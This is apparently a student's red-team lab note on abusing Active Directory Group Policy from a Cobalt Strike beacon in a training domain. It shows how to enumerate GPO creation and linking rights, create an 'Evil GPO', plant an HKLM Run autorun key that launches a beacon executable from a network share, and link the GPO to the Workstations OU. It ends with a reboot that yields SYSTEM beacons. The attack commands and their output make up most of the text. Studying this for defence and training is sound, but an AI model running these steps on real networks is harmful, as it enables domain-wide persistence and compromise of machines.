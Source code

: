 This shows that members of the "Developers" group can create new GPOs.
```powershell
beacon> powerpick Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

[+] host called home, sent: 138058 bytes
[+] received output:
DEV\Developers
```
This shows that members of the "Developers" group can link GPOs to the "Workstations" OU.
```powershell
beacon> powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

ObjectDN              : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : ReadProperty, WriteProperty
ObjectAceType         : GP-Link
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
```
converting the `SecurityIdentifier`
```powershell
beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
[*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107 (unmanaged)
[+] host called home, sent: 10 bytes
[+] host called home, sent: 138048 bytes
[+] received output:
DEV\Developers

```
GPOs can be managed from the command line via the PowerShell RSAT modules.  These are an optional install and so usually only found on management workstations.  The `Get-Module` cmdlet will show if they are present.
```powershell
[12/20 21:52:35] beacon> powerpick Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
[+] host called home, sent: 10 bytes

Key                        Value                     
---                        -----                     
Backup-GPO                 Backup-GPO                
Block-GPInheritance        Block-GPInheritance       
Copy-GPO                   Copy-GPO                  
Get-GPInheritance          Get-GPInheritance         
Get-GPO                    Get-GPO                   
Get-GPOReport              Get-GPOReport             
Get-GPPermission           Get-GPPermission          
Get-GPPrefRegistryValue    Get-GPPrefRegistryValue   
Get-GPRegistryValue        Get-GPRegistryValue       
Get-GPResultantSetOfPolicy Get-GPResultantSetOfPolicy
Get-GPStarterGPO           Get-GPStarterGPO          
Import-GPO                 Import-GPO                
Invoke-GPUpdate            Invoke-GPUpdate           
New-GPLink                 New-GPLink                
New-GPO                    New-GPO                   
New-GPStarterGPO           New-GPStarterGPO          
Remove-GPLink              Remove-GPLink             
Remove-GPO                 Remove-GPO                
Remove-GPPrefRegistryValue Remove-GPPrefRegistryValue
Remove-GPRegistryValue     Remove-GPRegistryValue    
Rename-GPO                 Rename-GPO                
Restore-GPO                Restore-GPO               
Set-GPInheritance          Set-GPInheritance         
Set-GPLink                 Set-GPLink                
Set-GPPermission           Set-GPPermission          
Set-GPPrefRegistryValue    Set-GPPrefRegistryValue   
Set-GPRegistryValue        Set-GPRegistryValue       
Get-GPPermissions          Get-GPPermissions         
Set-GPPermissions          Set-GPPermissions         
```
Use the `New-GPO` cmdlet to create and link a new GPO.
```powershell
beacon> powerpick New-GPO -Name "Evil GPO"

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\bfarmer
Id               : 550f6672-bdd0-4e3d-8907-628ee6909f26
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 9/8/2022 1:30:17 PM
ModificationTime : 9/8/2022 1:30:17 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```
Some abuses can be implemented directly using RSAT.  For example, the `Set-GPPrefRegistryValue` cmdlet can be used to add an HKLM autorun key to the registry.
```powershell
beacon> powerpick Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
[+] received output:


DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\bfarmer
Id               : 34e3a752-e701-436e-be51-6e1fa2c0b46c
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 12/20/2023 9:54:41 PM
ModificationTime : 12/20/2023 9:56:42 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        : 

```
Next, apply the GPO to the target OU.
- this is where the `GPO` actually gets put in.
```powershell
beacon> powerpick Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
[+] received output:


GpoId       : 34e3a752-e701-436e-be51-6e1fa2c0b46c
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 5
```
![[Pasted image 20231220165907.png]]
Remember that HKLM autoruns require a reboot to execute.
 ---Didnt test the full reboot---

# In order to enable testing in [[4.1 Lateral Movement - After full lab reset]] section had to update gpo

Ended up testing the full reboot by going onto `WKSTN-1` & `WKSTN-2` and opening a `cmdline` to type `gpupdate /force` to enforce the modified `GPO` and `shutdown /r` to restart the machines
once the machines came back up I caught `ghost beacons` which are what occurs with `DNS` beacons

![[Pasted image 20231220172139.png]]
once typing `getuid` the information for each host populates

![[Pasted image 20231220172358.png]]
able to get into `WKSTN-2` System `beacon` from `DNS` beacons

![[Pasted image 20231220173031.png]]`